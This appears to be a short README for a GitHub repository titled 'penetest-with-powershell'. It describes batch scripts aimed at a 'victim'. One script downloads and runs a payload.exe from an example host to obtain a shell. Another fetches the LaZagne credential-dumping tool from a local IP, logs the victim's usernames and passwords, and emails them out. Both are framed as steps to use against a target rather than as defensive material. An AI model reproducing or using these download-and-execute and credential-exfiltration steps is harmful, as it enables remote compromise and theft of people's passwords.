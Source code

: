 # penetest-with-powershell

download and execute script 
set files=‘url1’,’url2'
mention your payload URL in the script

exmple
set files=‘www.http://www.googl.com/car1.jpg’,’http://192.168.0.1/evil-files/payload.exe'
then, compile the txt into bat 
send it to the victim get the shell 

auto email script

set downloadURL=http://192.168.1.7/laZagne.exe
set email=
set password=

In download url i have specified lazagne file which is used to preview the email id and password in the victim system 
so when lazagne execute using auto download and execute .. it will log the username and password in a text file and send it through email. 







